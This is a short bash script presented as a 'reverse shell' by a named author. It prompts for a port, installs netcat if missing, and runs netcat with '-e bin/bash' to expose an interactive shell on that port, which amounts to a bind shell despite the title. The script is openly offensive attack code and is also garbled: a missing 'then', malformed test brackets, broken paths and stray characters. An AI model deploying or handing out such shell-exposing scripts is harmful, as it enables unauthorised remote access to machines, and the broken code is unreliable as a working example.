 #!bin/bash

#Reverse Shell by: MIN1 LIP3ZIN :(
clear

#echo "###########"
#echo "MIN1 LIP3ZIN"
#echo "##########"

read  -p  "select port: "    port
find /etc/nc

if [ $? == 1]

       apt-get  install  netcat
        clear
        nc  -vld $port -e  "bin/bash"

        clear

clear

else
 nc  -vlp  $port  -e  "bin/bash"$

clear

      clear

fi
